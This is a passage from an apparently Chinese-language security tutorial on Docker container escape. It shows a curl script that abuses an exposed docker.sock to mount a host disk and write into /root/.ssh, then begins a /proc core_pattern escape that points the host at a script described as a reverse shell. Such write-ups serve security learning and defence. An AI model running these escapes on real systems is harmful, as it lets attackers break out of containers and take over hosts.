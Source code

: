 ```sh
  -H "Content-Type: application/json" \
  --output /dev/null \
  --write-out "%{http_code}"
echo ""

# Create the exec
# 执行命令
EXEC_CREATE=`curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/exec" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "AttachStdout": true,
    "Tty": true,
    "Cmd": [ "bash", "-c", "mkdir test && mount /dev/xxx /test && touch /test/root/.ssh/flag.txt" ]
  }'
`
echo $EXEC_CREATE | jq '.'

# Run the exec
#
EXEC_ID=$(echo $EXEC_CREATE | jq -r '.Id')
curl --silent --unix-socket /var/run/docker.sock "http://localhost/exec/${EXEC_ID}/start" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "Detach": false,
    "Tty": true
  }'

# Or use the logging API to attach to the container, and delete the JSON
# from `start`
#
# curl --silent --unix-socket /var/run/docker.sock "http:/containers/${CONTAINER_NAME}/attach?stream=1&stdout=1&stderr=1" -XPOST
```  
由于是测试环境，我安装了jq，运行完脚本之后，宿主机的/root/.ssh目录下就会生成一个flag.txt，成功逃逸。  

### proc挂载逃逸
参考文章:  
<https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs->  
>/proc/sys/kernel/core_pattern负责配置进程崩溃时内存转储数据的导出方式,如果该文件中的首个字符是管道符，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

容器内如果挂载了proc，我们修改/proc/sys/kernel/core_pattern,将其指向我们的脚本，当运行一个崩溃的程序时，core_pattern中的脚本就会执行。
首先创建一个测试容器:  
```bash
sudo docker run -itd --name=test6 -v /proc:/host/proc ubuntu /bin/bash
```
因为/proc/sys/kernel/core_pattern的查找是在宿主机文件系统进行的,所以我们需要获取到容器在宿主机的绝对路径，这样当程序崩溃时脚本才可以正常执行：
```bash
cat /host/proc/mounts | grep docker
```
找到workdir，形如：  
```
workdir=/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/work
```
merged是docker的挂载点，那么 
```bash
/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/
```
便是容器内根目录在宿主机的绝对路径。接下来我们修改core_pattern：  
```bash
echo -e "|/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/ft.sh \rcore           " > /host/proc/sys/kernel/core_pattern
```
其中/tmp/1.sh是反弹shell命令，接下来我们生成一个崩溃的程序: